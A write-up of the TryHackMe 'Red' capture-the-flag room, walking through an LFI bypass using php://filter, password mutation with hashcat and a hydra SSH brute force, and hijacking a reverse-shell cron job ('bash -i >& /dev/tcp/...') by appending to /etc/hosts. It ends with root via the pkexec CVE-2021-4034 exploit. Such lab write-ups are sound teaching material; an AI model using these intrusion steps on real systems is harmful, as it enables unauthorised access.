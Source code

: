# Red

https://tryhackme.com/room/redisl33t

*A classic battle for the ages.* - rated Easy

A pretty fun room! Few twists and turns, nothing too complicated, and similar to my [Hacker vs. Hacker room](https://tryhackme.com/room/hackervshacker) with its simulation of an on-machine adversary looking to bump your shells, though I think this room does it better :)

1. Scanning reveals just two ports, 22 and 80. On 80 is a brochure-ware site, which immediately suggests some form of LFI as its home page is `/index.php?page=home.html`. Further enumeration of the site doesnt reveal anything interesting.

2. The LFI doesn't work with simple payloads, e.g. `?page=/etc/passwd` or `?page=../../../../../etc/passwd`. However, using a php filter like `?page=php://filter/convert.base64-encode/resource=index.php` allows us to read the index.php source code (after reversing the base64 encoding): 

	```php
	<?php 

    function sanitize_input($param) {
        $param1 = str_replace("../","",$param);
        $param2 = str_replace("./","",$param1);
        return $param2;
    }
    
    $page = $_GET['page'];
    if (isset($page) && preg_match("/^[a-z]/", $page)) {
        $page = sanitize_input($page);
        readfile($page);
    } else {
        header('Location: /index.php?page=home.html');
    }
    
    ?>
	```

3. This shows two protections: `preg_match("/^[a-z]/", $page)` ensures that the first character of the page must be an alphabetic character, and the `sanitize_input` function prevents any path traversal. As shown by using the php filter, this is an easy way to bypass this (as the first character is `p` in `php://`) - in fact it can be simplified, and you can read the passwd file with `?page=php://filter/resource=/etc/passwd`: no path traversal, as we are using an absolute path. This reveals there are two users of note (aside from root): `red` and `blue`.

4. We can only read files - the `readfile` function will prevent loading PHP code (it will be read as text). Interestingly, we can read from remote addresses like the attack box, but without PHP interpretation this seems worthless. So, enumerating some interesting files is the path forward. Eventually,  trying for `/home/blue/.bash_history` revealed something interesting:

	```
	echo "Red rules"
    cd
    hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
    cat passlist.txt
    rm passlist.txt
    sudo apt-get remove hashcat -y
	```

5. Reading `.reminder` revealed `sup3r_p@s$w0rd!`. To replicate the process to generate random password variations, on the THM attack box the command `hashcat --stdout .reminder -r /opt/hashcat/rules/best64.rule > passlist.txt` was used (the `best64.rule` file is in a different location than on the target). Then, the password was brute forced with `hydra -l blue -P passlist.txt ssh://[targetIP]`

> Note, the password seemed to change every minute, so it was best to keep this hydra command handy.

6. Logging on as blue, **the first flag** is in their home directory. Several messages are eventually sent your way and eventually the session is killed, as the room description suggested would happen. To avoid this, use ssh `blue@[targetIP] -T` - `-T` doesn't create a pts file, meaning standard methods of killing user sessions don't work. This is a common trick in THMs [King of the Hill](https://tryhackme.com/games/koth) game mode, which I document here on [my koth tips and tricks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/README.md#general-tips-and-tricks).

7. Poking about, you can see an interesting process being run every minute via `ps aux`: `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001` - this is being run as the user `red`, the next target user, and if there is a listener on 9001 on redrules.thm this will grant a rev shell. If you cat /etc/hosts to see where redrules.thm is, you will see:

	```
	127.0.0.1 localhost
    127.0.1.1 red
    192.168.0.1 redrules.thm
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouter
	```

8. The IP address 192.168.0.1 does not exist in this network. If you use `ls -la` on `/etc/hosts` you will see it has the permissions `-rw-r--rw- 1 root adm 242 Jul 14 21:27 /etc/hosts` - this suggests it *should* be writable, however attempts to do so will fail. When a file is supposedly writable but you can't edit it, a KOTH trick is to check its extra attributes. This can be done with `lsattr /etc/hosts` which will reveal: `-----a--------e----- /etc/hosts`. That is, the file can be appended to only. Therefore `echo test >> /etc/hosts` will work.

9. Hosts seems to follow a latest rule found approach, so adding your attack box to hosts like `echo [attackboxIP] redrules.thm >> /etc/hosts` works and then starting a listener `nc -nvlp 9001` will quickly get you a reverse shell as red.

> much like blue's password, the hosts file is reverted on a regular basis so you might need to repeat this process more than once.

10. **The second flag** is in red's home directory. Enumerating the machine a couple of things stand out. First, there is a .git folder in red's home dir, but it doesn't represent a git repo. Instead it contains a copy of pkexec, with the suid bit set. This doesn't immediately indicate escalation, as pkexec is supposed to have the suid bit and will fail if it doesn't. In fact, the normal pkexec file, with the same size and hash and so the same version of pkexec, is still located in its normal place, escept the suid bit has been removed - if you try to run it it will fail.

11. Checking the version of pkexec can be done with `/home/red/.git/pkexec --version`, which reports 0.105. A quick goog will find CVE-2021-4034, a local privilege vuln. This will not work with regular pkexec because of the missing suid bit, but should work with the hidden copy in red's folder.

12. The exploit I used was from here: https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html. It involves creating a `makefile`, `evil-so.c` and `exploit.c` file on the attack box, **altering `exploit.c` so that the path to pkexec uses the path for red's copy**, running `make`, then copying the created `evil.so` and `exploit` to the target machine (/tmp is writable, so I placed them there). Running `chmod +x exploit` and then `./exploit` granted a root shell.

> Note this compiles fine on the THM attack box (ubuntu based), and runs fine on the target. If using Kali or another distro it might not compile or compile and then not run with libc errors. Its possible to resolve this by ensuring that the target libc version is used, compiling statically or other means. Elsewise, you can use https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py or something else, a pure python solution.

13. The **final flag** is under `/root` as normal. Additionally, under `/root/defense`, you can see all the little scripts used to simulate the attacker, which is neat.

So yeah, fun room. Used a few techniques I haven't seen in rooms for a good long while.
